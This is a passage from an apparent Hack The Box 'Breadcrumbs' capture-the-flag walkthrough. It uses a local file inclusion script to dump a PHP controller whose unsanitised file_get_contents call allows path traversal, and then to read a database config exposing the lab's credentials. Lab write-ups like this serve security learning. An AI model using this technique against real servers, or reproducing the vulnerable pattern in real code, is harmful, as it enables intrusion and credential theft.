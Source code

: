 We got some files here. Let's start reading their contents one by one.

Btw we noticed the directory indexing in `/includes/`, `/js/`, `/php/` and `/db/` directories.<br>
Here the initial idea of mine was to look at the file we `POST` request to get an LFI.

```php
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> python3 lfi.py includes/bookController.php 
/root/hackthebox/breadcrumbs/lfi.py:5: DeprecationWarning: invalid escape sequence '\/'
  print(bytes(r.text, 'utf-8').decode('unicode_escape').strip('"').replace('\/','/'))
<?php

if($_SERVER['REQUEST_METHOD'] == "POST"){
    $out = "";
    require '../db/db.php';

    $title = "";
    $author = "";

    if($_POST['method'] == 0){
        if($_POST['title'] != ""){
            $title = "%".$_POST['title']."%";
        }
        if($_POST['author'] != ""){
            $author = "%".$_POST['author']."%";
        }
        
    
        $query = "SELECT * FROM books WHERE title LIKE ? OR author LIKE ?";
        $stmt = $con->prepare($query);
        $stmt->bind_param('ss', $title, $author);
        $stmt->execute();
        $res = $stmt->get_result();
        $out = mysqli_fetch_all($res,MYSQLI_ASSOC);
    }

    elseif($_POST['method'] == 1){
        $out = file_get_contents('../books/'.$_POST['book']);
    }

    else{
        $out = false;
    }

    echo json_encode($out);
}
```

`require '../db/db.php';` took the attention of mine.

```php
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> python3 lfi.py db/db.php                  
<?php

$host="localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());
?>
```
